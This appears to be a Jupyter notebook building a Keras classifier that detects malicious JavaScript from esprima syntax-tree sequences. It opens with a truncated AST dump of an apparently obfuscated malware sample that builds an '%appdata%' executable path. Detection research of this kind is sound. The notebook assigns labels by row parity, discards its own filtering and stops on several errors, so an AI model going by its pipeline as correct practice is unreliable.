{ type: "Program", sourceType: "script", body: [ { type: "FunctionDeclaration", expression: False, isAsync: False, id: { type: "Identifier", name: "qjytsyfe" }, params: [], body: { type: "BlockStatement", body: [ { type: "VariableDeclaration", declarations: [ { type: "VariableDeclarator", id: { type: "Identifier", name: "guvhycp" }, init: { type: "Literal", value: "pdata%.eXE", raw: "'pdata%.eXE'" } } ], kind: "var" }, { type: "ReturnStatement", argument: { type: "Identifier", name: "guvhycp" } } ] }, generator: False }, { type: "VariableDeclaration", declarations: [ { type: "VariableDeclarator", id: { type: "Identifier", name: "ekjufyfx" }, init: { type: "Literal", value: ":", raw: "\":\"" } } ], kind: "var" }, { type: "FunctionDeclaration", expression: False, isAsync: False, id: { type: "Identifier", name: "zivjaq" }, params: [], body: { type: "BlockStatement", body: [ { type: "VariableDeclaration", declarations: [ { type: "VariableDeclarator", id: { type: "Identifier", name: "olpiga

In [ ]:
''

In [ ]:
frames = [df1, df2, df3]
result = pd.concat(frames)

In [ ]:
# importing the "tarfile" module
import tarfile
  
# open file
file = tarfile.open('gfg.tar.gz')
  
# print file names
print(file.getnames())
  
# extract files
file.extractall('./Destination_FolderName')
  
# close file
file.close()

In [ ]:
# !wget --no-check-certificate 'https://docs.google.com/uc?export=download&id=1aAViznOMQwRGF9WFSkNwyqh-ntHwQBIJ' -O "data.zip"

In [ ]:
# !unzip "data.zip"

In [ ]:
# !wget --no-check-certificate 'https://docs.google.com/uc?export=download&id=1dpQJsB1gpG5D7spgjW5yq7WAEo2jCzmD' -O "arabic-word-net.zip"
# !unzip "arabic-word-net.zip" -d "data"

In [28]:
ind = 0
print(de[ind])
os.chdir(de[ind])
ss = os.listdir()

# print(de[ind])
# path = de[ind]

# obj = os.scandir()
 
# # List all files and directories in the specified path
# print("Files and Directories in '% s':" % path)
# for entry in obj:
#     if entry.is_dir() or entry.is_file():
#         print(entry.name)

G:\JSContanaDataSet\javascript-malware-collection-master\19360611


FileNotFoundError: [WinError 2] The system cannot find the file specified: 'G:\\JSContanaDataSet\\javascript-malware-collection-master\\19360611'

In [ ]:
with open("G:/JSContanaDataSet/programs_training.txt", 'r', encoding='utf-8') as file:
    path_scripts = file.readlines()
df = pd.DataFrame(columns=["ScriptPath","Label"])
scripts = []
Label = []
for path_script in range(len(path_scripts)-1):
    try:
        s_p = "G:/JSContanaDataSet/"+path_scripts[path_script][:-1]
        with open(s_p) as js_file:
            script = js_file.read()
        scripts.append(path_scripts[path_script][:-1])
        if path_script%2==0:
            Label.append(0)
        else:
            Label.append(1)
    except:
        pass

In [3]:
def load_object(filename):
    with open(filename+".pickle", 'rb') as outp:
        loaded_object = pickle.load(outp)
    outp.close()
    return loaded_object

In [6]:
_for_traingen_ = load_object("_for_traingen_")

In [19]:
x  = _for_traingen_[12] == _for_traingen_[33]

In [20]:
_for_traingen_[12].shape

(100, 100)

In [23]:
_for_traingen_[33][x].shape

(0,)

In [11]:
model = load_model("Model_for_all_for_traingen.h5")

OSError: SavedModel file does not exist at: Model_for_all_for_traingen.h5/{saved_model.pbtxt|saved_model.pb}

In [40]:
path_train_data = 'G:/JSContanaDataSet/script__df.csv'
# num_words = 400000
num_words = 400
# maxlen = 1024
maxlen = 100
embedding_dim = 50
myoptimizer = 'adam'
myloss= 'binary_crossentropy'
mymetrics = 'accuracy'
vocab_size = 0

In [18]:
# df = pd.read_csv('G:/JSContanaDataSet/script_path_df.csv')

In [41]:
def save_object(obj, filename):
    with open(filename+".pickle", 'wb') as outp:
        pickle.dump(obj, outp, pickle.HIGHEST_PROTOCOL)
    outp.close()

In [42]:
def load_object(filename):
    with open(filename+".pickle", 'rb') as outp:
        loaded_object = pickle.load(outp)
    outp.close()
    return loaded_object

In [59]:
def preprocessing_dataset_(scripts,test = 0):
    if test == 0:
        tokenizer = Tokenizer(num_words=num_words)
        tokenizer.fit_on_texts(scripts)
        our_tokenizer = save_object(tokenizer, "our_tokenizer")
    else :
        tokenizer = load_object("our_tokenizer")
    X = tokenizer.texts_to_sequences(scripts)
    global vocab_size
    vocab_size = vocab_size + len(tokenizer.word_index) + 1  # Adding 1 because of reserved 0 index
    
    save_object(vocab_size, "vocab_size")
    X = pad_sequences(X, padding='post', maxlen=maxlen)
    return X

In [60]:
ss = np.asarray(["1", "www","2", "None","muawiyua",None,None]).astype('object')
index = np.where(ss == None)[0]
print(index)

[5 6]


In [61]:
np.delete(ss, index, axis=0)

array(['1', 'www', '2', 'None', 'muawiyua'], dtype=object)

In [62]:
l = []
il = []
i = 0 
for s in ss:
    if s!=None:
        l.append(s)
        il.append(i)
    i+=1

In [63]:
print(np.asarray(l))

['1' 'www' '2' 'None' 'muawiyua']


In [64]:
class CustomDataGen(keras.utils.Sequence):
    
    def __init__(self, df, X_col, y_col,batch_size,test=0,shuffle=True,sub_path=""):
        
        self.df = df.copy()
        self.X_col = X_col
        self.y_col = y_col
        self.batch_size = batch_size
        self.test = test
        self.shuffle = shuffle
        self.sub_path = sub_path
        self.n = len(self.df[self.df.columns[0]])
    
    def on_epoch_end(self):
        if self.shuffle:
            self.df = self.df.sample(frac=1).reset_index(drop=True)
    
    def __get_input(self, path):
        try:
            with open(self.sub_path+path) as js_file:
                script = js_file.read()
            script = sequence_of_syntax_units(script)
            return script
        except:
            return 'None'
    def __get_output(self, label):
        return label
#         return keras.utils.to_categorical(label, num_classes=2)
    
    def __get_data(self, batches):

        path_batch = batches[self.X_col['path']]
        
        name_batch = batches[self.y_col['name']]

        X_batch = np.asarray([self.__get_input(x) for x in path_batch]).astype('object')
        
        y0_batch = np.asarray([self.__get_output(y) for y in name_batch]).astype('object')
        
        index = np.where(X_batch=='None')[0]
        
        np.delete(X_batch, index, axis=0)
        np.delete(y0_batch, index, axis=0)
        
        
        X_batch  = preprocessing_dataset_(X_batch , test = self.test )


        return X_batch, y0_batch
    
    def __getitem__(self, index):
        
        batches = self.df[index * self.batch_size:(index + 1) * self.batch_size]
        X, y = self.__get_data(batches)        
        return X, y
    
    def __len__(self):
        return self.n // self.batch_size

In [65]:
my_df = pd.read_csv('G:/JSContanaDataSet/script_path_data.csv')

traingen = CustomDataGen(my_df,
                         X_col={'path':'ScriptPath'},
                         y_col={'name': 'Label'},
                         batch_size=1000,
                         sub_path='G:/JSContanaDataSet/',
                         test=0)

In [66]:
traingen[0][0][0]

array([1, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
       0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
       0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
       0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
       0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0])

In [67]:
len(traingen[0])

2

In [68]:
len(traingen[0][0])

1000

In [69]:
len(traingen[0][0][0])

100

In [70]:
# vocab_size = load_object("vocab_size")
vocab_size

10

In [38]:
list(traingen)

[(array([[1, 0, 0, ..., 0, 0, 0],
         [1, 0, 0, ..., 0, 0, 0],
         [1, 0, 0, ..., 0, 0, 0],
         ...,
         [1, 0, 0, ..., 0, 0, 0],
         [1, 0, 0, ..., 0, 0, 0],
         [1, 0, 0, ..., 0, 0, 0]]),
  array([0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0,
         1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 1, 0, 1,
         0, 1, 0, 1, 0, 0, 1, 1, 0, 1, 1, 0, 0, 1, 0, 0, 1, 0, 1, 0, 1, 0,
         1, 0, 1, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1,
         0, 1, 0, 1, 1, 0, 1, 0, 1, 0, 0, 1, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0,
         1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0,
         1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 1, 0, 1,
         0, 1, 0, 1, 0, 1, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0,
         1, 0, 1, 0, 1, 0, 1, 0, 1, 1, 0, 1, 0, 1, 0, 1, 1, 0, 1, 0, 1, 0,
         1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0, 1, 0,
         1, 0, 1, 0, 1, 0, 1, 

In [3]:
df.head()

,ScriptName,Label
0,/* -*- Mode: C++; tab-width: 2; indent-tabs-mo...,0
1,'use strict';var Promise = require('bluebird')...,1
2,"CKEDITOR.plugins.setLang(""showblocks"",""en"",{to...",0
3,"'use strict';describe('myApp.view1 module', fu...",1
4,"'use strict';angular.module(""ngLocale"", [], [""...",0


In [2]:
# convert java script code to the abstract syntax tree
# then extract the sequences of syntax units with detailed information
def sequence_of_syntax_units(scripts):
    """
    sctipts : list or single javascript code 
    return sequence of syntax units
    each syntax unit correspond to line in an abstract syntax tree
    """
    if type(scripts) is list:
        # esp.parseScript(script) returns abstract syntax tree of each js scripts
        return [re.sub('\s+', ' ', ''.join(str(esp.parseScript(script)).split('\n'))) for script in scripts]
    elif type(scripts) is str:
        return re.sub('\s+', ' ', ''.join(str(esp.parseScript(scripts)).split('\n')))
    else:
        raise ValueError('The type of scripts parameter must be {list or string}')

In [3]:
def esprima_dataFrame(path="G:/JSContanaDataSet/programs_training.txt",name="esprima_dataFrame"):
    with open(path, 'r', encoding='utf-8') as file:
        path_scripts = file.readlines()
    scripts = []
    Label = []
    X = []
    y = []
    sub_path = path[:path.rindex("/")+1]
    for path_script in range(len(path_scripts)-1):
        try:
            s_p = sub_path+path_scripts[path_script][:-1]
            with open(s_p) as js_file:
                script = js_file.read()
                sequence_of_syntax_units(script)
                X.append(path_scripts[path_script][:-1])
                if path_script%2==0:
                    y.append(0)
                else:
                    y.append(1)
        except:
            pass
    df = pd.DataFrame(columns=["ScriptName","Label"])
    df["ScriptName"] = X
    df["Label"] = y
    df.to_csv(sub_path+name+'.csv', index=False)    
    return df

In [4]:
esprima_dataFrame("G:/JSContanaDataSet/programs_eval.txt",'script_path_test_data.csv')

C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible nested set at position 1
  return re.compile(pattern, pyflags)
C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible nested set at position 20
  return re.compile(pattern, pyflags)
C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible set union at position 20
  return re.compile(pattern, pyflags)
C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible set union at position 30
  return re.compile(pattern, pyflags)
C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible set union at position 16
  return re.compile(pattern, pyflags)
C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible set union at position 38
  return re.compile(pattern, pyflags)
C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: F

,ScriptName,Label
0,data/rackt/react-router/build/npm/lib/PathUtil...,1
1,data/google/closure-library/closure/goog/ui/dr...,0
2,data/twitwi/deck.js/extensions/step/deck.step.js,1
3,data/schteppe/p2.js/src/shapes/Circle.js,0
4,data/sequelize/sequelize/test/integration/mode...,1
...,...,...
43780,data/rendrjs/rendr-examples/05_requirejs/app/v...,1
43781,data/mhoegh/MyGeoCloud/js/GeoExt/lib/GeoExt/wi...,0
43782,data/marmelab/restful.js/test/src/restful-spec.js,1
43783,data/oleics/node-easy-ipc/examples/pong/client.js,1


In [6]:
my_test_df = pd.read_csv('G:/JSContanaDataSet/script_path_test_data.csv')

In [8]:
my_test_df.shape

(43785, 2)

In [ ]:
with open("G:/JSContanaDataSet/programs_training.txt", 'r', encoding='utf-8') as file:
    path_scripts = file.readlines()
df_0 = pd.DataFrame(columns=["ScriptPath","Label"])
scripts = []
Label = []
for path_script in range(len(path_scripts)-1):
    try:
        s_p = "G:/JSContanaDataSet/"+path_scripts[path_script][:-1]
        with open(s_p) as js_file:
            script = js_file.read()
        scripts.append(path_scripts[path_script][:-1])
        Label.append(0)
    except:
        pass
df["ScriptPath"] = scripts
df["Label"] = Label
df_0.to_csv('G:/JSContanaDataSet/df_0.csv', index=False)

In [16]:
len(X)

56514

In [24]:
train_df["ScriptName"] = X

In [27]:
y  = []
for i in range(len(train_df["ScriptName"])):
    if i%2==0:
        y.append(0)
    else:
        y.append(1)

In [28]:
train_df["Label"] = y

In [29]:
train_df.head()

,ScriptName,Label
0,"{ type: ""Program"", sourceType: ""script"", body:...",0
1,"{ type: ""Program"", sourceType: ""script"", body:...",1
2,"{ type: ""Program"", sourceType: ""script"", body:...",0
3,"{ type: ""Program"", sourceType: ""script"", body:...",1
4,"{ type: ""Program"", sourceType: ""script"", body:...",0


In [32]:
train_df.to_csv('G:/JSContanaDataSet/script__df.csv', index=False)

NameError: name 'train_df' is not defined

In [31]:
train_df["ScriptName"][0]

NameError: name 'train_df' is not defined

In [ ]:
def pipeline(scripts, target, test_size=0.2):
    """
    scripts : train and test dataset
    target : malicious file or not 
    test_size: test set size
    """
    # 1- convert each script in X to abstract tree then to sequence of syntax units
    X = sequence_of_syntax_units(scripts)
    
#     # 2- train test split 
#     indeices = np.arange(len(scripts)).astype('int')
#     np.random.shuffle(indeices)
#     X = np.array(X)
#     target = np.array(target)
#     X = X[indeices]
#     y = target[indeices]
#     num_of_test_samples = int(test_size * len(scripts))
#     X_train, X_test, y_train, y_test = X[:-num_of_test_samples], X[-num_of_test_samples:], y[:-num_of_test_samples], y[-num_of_test_samples:]
    
    
#     # 3- train static word2vec model and save it 
#     model, voc_size = train_static_word2vec(X_train)
#     save_static_word2vec(model, MODEL_FILENAME, X_train, TRAIN_DATA_FILENAME)
    
    # 4- build nerual network
    nn = neural_network()
    # preprocess input
    X_train_, X_test_ = preprocessing_dataset(X_train, X_test)
    # feed data to nn
    history = nn.fit(X_train_, y_train, epochs=1, validation_split=0.1, verbose=True, batch_size=32)
    return nn, history

In [ ]:
model, history = pipeline(dataset, target, 0.1)

In [2]:
# with open("G:/JSContanaDataSet/programs_training.txt", 'r', encoding='utf-8') as file:
#     path_scripts = file.readlines()
# df = pd.DataFrame(columns=["ScriptPath","Label"])
# scripts = []
# Label = []
# for path_script in range(len(path_scripts)-1):
#     try:
#         s_p = "G:/JSContanaDataSet/"+path_scripts[path_script][:-1]
#         with open(s_p) as js_file:
#             script = js_file.read()
#         scripts.append(path_scripts[path_script][:-1])
#         if path_script%2==0:
#             Label.append(0)
#         else:
#             Label.append(1)
#     except:
#         pass
# df["ScriptPath"] = scripts
# df["Label"] = Label

In [3]:
df = pd.read_csv('G:/JSContanaDataSet/script_path_data.csv')

In [6]:
df.head()

,ScriptPath,Label
0,data/mozilla/rhino/testsrc/tests/js1_8/extensi...,0
1,data/hexojs/hexo/lib/extend/migrator.js,1
2,data/studio107/meditor/vendors/ckeditor/plugin...,0
3,data/clemens-tolboom/drupal-8-rest-angularjs/a...,1
4,data/SchizoDuckie/DuckieTV/_locales/angular-lo...,0


In [42]:
class CustomDataGen(keras.utils.Sequence):
    
    def __init__(self, df, X_col, y_col,
                 batch_size,
                 shuffle=True):
        
        self.df = df.copy()
        self.X_col = X_col
        self.y_col = y_col
        self.batch_size = batch_size
        self.shuffle = shuffle
        
        self.n = len(self.df)
    
    def on_epoch_end(self):
        if self.shuffle:
            self.df = self.df.sample(frac=1).reset_index(drop=True)
    
    def __get_input(self, path):
        
        try:
            with open('G:/JSContanaDataSet/'+path) as js_file:
                script = js_file.read()
            return script
        except:
            print("There Are Error")    
    def __get_output(self, label):
        return keras.utils.to_categorical(label, num_classes=2)
    
    def __get_data(self, batches):

        path_batch = batches[self.X_col['path']]
        
        name_batch = batches[self.y_col['name']]

        X_batch = np.asarray([self.__get_input(x) for x in path_batch])

        y0_batch = np.asarray([self.__get_output(y) for y in name_batch])

        return X_batch, y0_batch
    
    def __getitem__(self, index):
        
        batches = self.df[index * self.batch_size:(index + 1) * self.batch_size]
        X, y = self.__get_data(batches)        
        return X, y
    
    def __len__(self):
        return self.n // self.batch_size

In [43]:
traingen = CustomDataGen(df.sample(1000),
                         X_col={'path':'ScriptPath'},
                         y_col={'name': 'Label'},
                         batch_size=200)

# valgen = CustomDataGen(val_df,
#                        X_col={'path':'filename', 'bbox': 'region_shape_attributes'},
#                        y_col={'name': 'name', 'type': 'type'},
#                        batch_size=batch_siz, input_size=target_size)

# model.fit(traingen,
#           validation_data=valgen,
#           epochs=num_epochs)

In [44]:
print(len(traingen))
print(len(traingen[0]))
print(len(traingen[0][0]))

5
2
200


#####################################0###################################
*****************************0**************************************
============================0=========================
module.exports = typeof require;
============================1=========================
//! moment-timezone.js
//! version : 0.1.0
//! author : Tim Wood
//! license : MIT
//! github.com/moment/moment-timezone

(function (root, factory) {
	"use strict";

	/*global define*/
	if (typeof define === 'function' && define.amd) {
		define(['moment'], factory);                 // AMD
	} else if (typeof exports === 'object') {
		module.exports = factory(require('moment')); // Node
	} else {
		factory(root.moment);                        // Browser
	}
}(this, function (moment) {
	"use strict";

	// Do not load moment-timezone a second time.
	if (moment.tz !== undefined) { return moment; }

	var VERSION = "0.1.0",
		zones = {},
		links = {};

	/************************************
		Unpacking
	*********

var error = require('../lib/utils').error;

module.exports = function (req, res, next) {
    if (!res.locals.message) {
        res.locals.message = 'Sorry, whatever youâ€™re looking for isnâ€™t here.';
    }

    next(error(404));
};

============================3=========================
var Column = require('./Column.js'),
Row = require('./Row.js'),
Cell = require('./Cell.js'),
Image = require('./Images.js'),
xml = require('xmlbuilder');

var WorkSheet = function(wb){
	this.wb = wb;
	this.opts = {};
	this.name = '';
	this.hasGroupings = false;
	this.margins = {
		bottom:1.0,
		footer:.5,
		header:.5,
		left:.75,
		right:.75,
		top:1.0
	};
	this.printOptions = {
		centerHorizontal: false,
		centerVertical: true
	}
	this.sheetView = {
		workbookViewId:0,
		zoomScale:100,
		zoomScaleNormal:100,
		zoomScalePageLayoutView:100
	}
	this.sheet={};
	this.sheet['@mc:Ignorable']="x14ac";
	this.sheet['@xmlns']='http://schemas.openxmlformats.org/spreadsheetml/2006/main';
	this.sheet['@xmlns:mc']

/* -*- Mode: C++; tab-width: 2; indent-tabs-mode: nil; c-basic-offset: 2 -*- */
/* This Source Code Form is subject to the terms of the Mozilla Public
 * License, v. 2.0. If a copy of the MPL was not distributed with this
 * file, You can obtain one at http://mozilla.org/MPL/2.0/. */

gTestfile = '15.7.3.6-4.js';

/**
   File Name:          15.7.3.6-4.js
   ECMA Section:       15.7.3.6 Number.POSITIVE_INFINITY
   Description:        All value properties of the Number object should have
   the attributes [DontEnum, DontDelete, ReadOnly]

   this test checks the DontEnum attribute of Number.POSITIVE_INFINITY

   Author:             christine@netscape.com
   Date:               16 september 1997
*/
var SECTION = "15.7.3.6-4";
var VERSION = "ECMA_1";
startTest();
var TITLE   = "Number.POSITIVE_INFINITY";

writeHeaderToLog( SECTION + " "+TITLE);

new TestCase( SECTION,
	      "var string = ''; for ( prop in Number ) { string += ( prop == 'POSITIVE_INFINITY' ) ? prop : '' } string;",
	      

//Compiled by LiteScript compiler v0.4.0, source: /home/ltato/LiteScript/devel/source-v0.5/SourceMap.lite.md
//# LiteScript SourceMap

//Source maps allow JavaScript runtimes to match running JavaScript back to
//the original source code that corresponds to it. This can be minified
//JavaScript, but in our case, we're concerned with mapping pretty-printed
//JavaScript back to CoffeeScript.

//In order to produce maps, we must keep track of positions (line number, column number)
//that originated every node in the syntax tree, and be able to generate a
//[map file](https://docs.google.com/document/d/1U1RGAehQwRypUTovF1KRlpiOFze0b-_2gc6fAH0KY0k/edit)
//â€” which is a compact, VLQ-encoded representation of the JSON serialization
//of this information â€” to write out alongside the generated JavaScript.

//This code was translated from CoffeScritp's sourcemap at
//https://github.com/jashkenas/coffee-script/blob/master/src/sourcemap.litcoffee

//### Changes:
//- removed stored generated col

/*
 * Copyright (c) 2011-2013, Yahoo! Inc.  All rights reserved.
 * Copyrights licensed under the New BSD License.
 * See the accompanying LICENSE file for terms.
 */

/*jslint anon:true, sloppy:true, nomen:true*/

YUI.add('master', function (Y, NAME) {

    Y.namespace('mojito.controllers')[NAME] = {

        "index": function (actionContext) {
            actionContext.composite.done();
        }

    };
}, '0.0.1', {requires: ['mojito', 'mojito-composite-addon']});

============================9=========================
module.exports = function() {
  return {
    name: 'description',
    transforms: function(doc, tag, value) {
      if ( doc.tags.description ) {
        value = doc.tags.description + '\n' + value;
      }
      return value;
    },
    defaultFn: function(doc) {
      return doc.tags.description;
    }
  };
};
*****************************1**************************************
============================0=========================
[1. 0.]
=========================

// This "class" contains information about toasters that have been pushed up
// and provides some methods to navigate through these toasters

window.ToasterChain = function() {
	this.items = []; //a collection of objects (toasters)
};

ToasterChain.prototype = {
	add: function(toaster) {
		// Add a toaster to the stack
		
		if (this.items.length > 0) {
			// hide the currently visible toaster
			this.items[this.items.length - 1].hide();
		}
		else {
			// hide the navbar
			try {
				get('nav-bar').setStyle({'bottom':'-100px'});
				get('footer').hide();
			}
			catch (e){}
		}
		
		// store and show the new toaster
		this.items.push(toaster);
		toaster.show();
	},
	back: function() {
		// Remove the topmost toaster and show the one "behind" it
		if (this.items.length > 0) {
			var toaster = this.items.pop();
			toaster.destroy();
			
			// If there are more items, show the next one
			if (this.items.length > 0) {
				this.items[this.items.length - 1].show();
			}
			else {
				// Othe

define(['./index'],
  function(filters) {

    'use strict';

    filters.filter('dashOnNull', function() {
      return function(input) {
        if (typeof input === 'undefined' || input === '' || input === null) {
          return '\u2013';
        }
        else {
          return input;
        }
      };
    });
  }
);
============================9=========================
/* -*- Mode: Javascript; indent-tabs-mode:nil; js-indent-level: 2 -*- */
/* vim: set ts=2 et sw=2 tw=80: */

/*************************************************************
 *
 *  MathJax/localization/ia/MathMenu.js
 *
 *  Copyright (c) 2009-2015 The MathJax Consortium
 *
 *  Licensed under the Apache License, Version 2.0 (the "License");
 *  you may not use this file except in compliance with the License.
 *  You may obtain a copy of the License at
 *
 *     http://www.apache.org/licenses/LICENSE-2.0
 *
 *  Unless required by applicable law or agreed to in writing, software
 *  distributed under the License is 

import Ember from 'ember';
import setTitle from '../../utils/set-title';
/* global Messenger */

export default Ember.Route.extend({
  model: function() {
    return this.modelFor('anime');
  },

  setupController: function(controller, model) {
    if (model.get('featuredCastings.length') > 0) {
      // TODO Give English, Japanese preference here.
      controller.set('language', model.get('featuredCastings.firstObject').get('language'));
    }
    controller.set('model', model);
  },

  afterModel: function(resolvedModel) {
    return setTitle(resolvedModel.get('displayTitle'));
  },

  saveLibraryEntry: function(libraryEntry) {
    var anime = this.currentModel;
    return Messenger().expectPromise((function() {
      return libraryEntry.save();
    }), {
      progressMessage: "Saving " + anime.get('canonicalTitle') + "...",
      successMessage: function() {
        // update the 'full-anime' relationship, since it seems to
        // disappear into the void
        anime.set('lib

define(
({
	smiley: "Sisipkan Emoticon",
	emoticonSmile: "tersenyum",
	emoticonLaughing: "tertawa",
	emoticonWink: "mengedipkan mata",
	emoticonGrin: "menyeringai",
	emoticonCool: "keren",
	emoticonAngry: "marah",
	emoticonHalf: "setengah tersenyum",
	emoticonEyebrow: "menaikkan alis",
	emoticonFrown: "cemberut",
	emoticonShy: "malu",
	emoticonGoofy: "bodoh",
	emoticonOops: "aduh",
	emoticonTongue: "menjulurkan lidah",
	emoticonIdea: "mendapatkan ide",
	emoticonYes: "ya",
	emoticonNo: "tidak",
	emoticonAngel: "malaikat",
	emoticonCrying: "menangis",
	emoticonHappy: "bahagia"
})
);


*****************************1**************************************
============================0=========================
[1. 0.]
============================1=========================
[0. 1.]
============================2=========================
[0. 1.]
============================3=========================
[0. 1.]
============================4=========================
[0. 1.]
==========================

/*
YUI 3.17.0 (build ce55cc9)
Copyright 2014 Yahoo! Inc. All rights reserved.
Licensed under the BSD License.
http://yuilibrary.com/license/
*/

YUI.add("lang/calendar-base_es-AR",function(e){e.Intl.add("calendar-base","es-AR",{very_short_weekdays:["Do","Lu","Ma","Mi","Ju","Vi","Sa"],first_weekday:0,weekends:[0,6]})},"3.17.0");

============================7=========================
var _presentation_editor_themes = [];

_presentation_editor_themes[0] = {
    Name: "pixel",
    Url: "/theme1/",
    Thumbnail: ""
};

_presentation_editor_themes[1] = {
    Name: "classic",
    Url: "/theme2/",
    Thumbnail: ""
};

_presentation_editor_themes[2] = {
    Name: "official",
    Url: "/theme3/",
    Thumbnail: ""
};

_presentation_editor_themes[3] = {
    Name: "green",
    Url: "/theme4/",
    Thumbnail: ""
};

_presentation_editor_themes[4] = {
    Name: "lines",
    Url: "/theme5/",
    Thumbnail: ""
};

_presentation_editor_themes[5] = {
    Name: "office",
    Url: "/theme6/",
    Thumb











(function(){

// https://developer.mozilla.org/en/JavaScript/Reference/Global_Objects/Date/now
if (!Date.now) {
  Date.now = function now () {
    return +new Date();
  };
}

// vim:ft=javascript
})();

============================9=========================
var WebdriverIO = require('../../../../index.js'),
    conf = require('../../../conf/index.js');

/* global beforeEach */
describe('event handling executed by single multibrowser instance', function() {
    describe('is able to emit and listen to driver specific events and', function() {

        var isCommandHandlerEmitted = false,
            isErrorHandlerEmitted = false,
            isInitHandlerEmitted = false,
            isEndHandlerEmitted = false,
            uri = null,
            desiredCapabilties = null,
            matrix, browserA;

        before(function() {
            matrix = WebdriverIO.multiremote(conf.capabilities);
            browserA = matrix.select('browserA');

            browserA.on('end', function() {

/*global describe, it*/
var expect = require('../unexpected-with-plugins'),
    AssetGraph = require('../../lib'),
    query = AssetGraph.query;

describe('transforms/bundleRelations', function () {
    describe('with the oneBundlePerIncludingAsset strategy', function (done) {
        it('should bundle two stylesheets', function (done) {
            new AssetGraph({root: __dirname + '/../../testdata/transforms/bundleRelations/singleHtml'})
                .loadAssets('index.html')
                .populate()
                .queue(function (assetGraph) {
                    expect(assetGraph, 'to contain assets', 6);
                    expect(assetGraph, 'to contain asset', 'Html');
                    expect(assetGraph, 'to contain assets', 'Png', 3);
                    expect(assetGraph, 'to contain assets', 'Css', 2);
                    expect(assetGraph, 'to contain relations', 'HtmlStyle', 2);
                    expect(assetGraph, 'to contain relations', 'CssImage', 4);
      

/*!
 * Nodeunit
 * Copyright (c) 2010 Caolan McMahon
 * MIT Licensed
 */

/**
 * Module dependencies
 */

var async = require('../deps/async'),
    types = require('./types'),
    utils = require('./utils'),
    core = require('./core'),
    reporters = require('./reporters'),
    assert = require('./assert'),
    path = require('path')
    events = require('events');


/**
 * Export sub-modules.
 */

exports.types = types;
exports.utils = utils;
exports.reporters = reporters;
exports.assert = assert;

// backwards compatibility
exports.testrunner = {
    run: function () {
        console.log(
            'WARNING: nodeunit.testrunner is going to be deprecated, please ' +
            'use nodeunit.reporters.default instead!'
        );
        return reporters['default'].run.apply(this, arguments);
    }
};


/**
 * Export all core functions
 */

for (var k in core) {
    exports[k] = core[k];
};


/**
 * Load modules from paths array and run all exported tests in series. If a path
 *

// Copyright 2009 the Sputnik authors.  All rights reserved.
/**
 * Operator x <= y returns ToString(x) <= ToString(y), if Type(Primitive(x)) is String and Type(Primitive(y)) is String
 *
 * @path ch11/11.8/11.8.3/S11.8.3_A3.2_T1.2.js
 * @description Type(Primitive(x)) and Type(Primitive(y)) vary between Object object and Function object
 */

//CHECK#1
if (({} <= function(){return 1}) !== ({}.toString() <= function(){return 1}.toString())) {
  $ERROR('#1: ({} <= function(){return 1}) === ({}.toString() <= function(){return 1}.toString())');
}

//CHECK#2
if ((function(){return 1} <= {}) !== (function(){return 1}.toString() <= {}.toString())) {
  $ERROR('#2: (function(){return 1} <= {}) === (function(){return 1}.toString() <= {}.toString())');
}

//CHECK#3
if ((function(){return 1} <= function(){return 1}) !== (function(){return 1}.toString() <= function(){return 1}.toString())) {
  $ERROR('#3: (function(){return 1} <= function(){return 1}) === (function(){return 1}.toString() <= functio

// Copyright & License details are available under JXCORE_LICENSE file

/*
 This unit is testing fs.existsSync() on asset files of jx package
 */

// assets are read properly by combining process.cwd();
process.chdir(__dirname);

var jx = require('jxtools');
var assert = jx.assert;
var fs = require("fs");
var path = require("path");

var arr = [
  "_asset_file.txt",
  "assets/file.txt",
  "assets/assets1/file1.txt",
  "assets/subfolder1/module1.js",
];

for (var id in arr) {
  assert.ok(fs.existsSync(arr[id]), "The exists() method for asset file does not work: " + arr[id]);
}
============================8=========================
/// Copyright (c) 2012 Ecma International.  All rights reserved. 
/**
 * @path ch11/11.13/11.13.2/11.13.2-33-s.js
 * @description Strict Mode - TypeError is thrown if The LeftHandSide of a Compound Assignment operator(|=) is a reference to a data property with the attribute value {[[Writable]]:false}
 * @onlyStrict
 */


function testcase() {
        "use stri

[0. 1.]
============================1=========================
[0. 1.]
============================2=========================
[1. 0.]
============================3=========================
[1. 0.]
============================4=========================
[1. 0.]
============================5=========================
[0. 1.]
============================6=========================
[1. 0.]
============================7=========================
[1. 0.]
============================8=========================
[1. 0.]
============================9=========================
[0. 1.]


In [45]:
for h in range(5):
    print("#####################################"+str(h)+"###################################")
    for j in range(2):
        print("*****************************"+str(j)+"**************************************")
